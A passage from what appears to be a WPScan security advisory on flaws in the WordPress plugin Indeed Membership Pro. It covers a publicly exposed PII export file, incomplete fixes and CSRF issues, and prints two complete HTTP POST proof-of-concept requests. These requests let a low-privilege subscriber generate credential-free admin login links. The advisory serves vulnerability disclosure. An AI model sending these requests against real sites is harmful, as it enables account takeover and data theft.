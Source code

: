 Which will respond with the URL to the export file, containing PII: `http://example.com/wp-content/plugins/indeed-membership-pro/export.xml`

The file was then available publicly, and we confirmed its presence on the demo blog of the plugin's author.

#### PoC to Generate Authentication Links

With an Username:

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: {subscriber cookies}

action=ihc_generate_direct_link&username=admin
```

With an ID:

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: {subscriber cookies}

action=ihc_generate_direct_link_by_uid&uid=1
```

Both requests above will respond with a link which upon opening, lead to direct login without requiring any credentials, e.g `http://example.com/?ihc_action=dl&token=94bb1bcba42feb2e19565a44b3d96838fef9e791`

The vendor released version 8.6.1, fixing the authorisation checks, however after checking the diff, we (WPScanTeam) found that the fixes were not sufficient.

### Multiple CSRF Issues via AJAX Calls and Insufficient Filename Entropy (WPVulnDB [10086](https://wpvulndb.com/vulnerabilities/10086), v < 8.6.2)

An `indeedIsAdmin()` check was added to all AJAX calls for authorisation, however the calls were still missing CSRF verification. As a result, an attacker could force a logged in administrator to delete users and delete coupons via CSRF attacks on those calls.
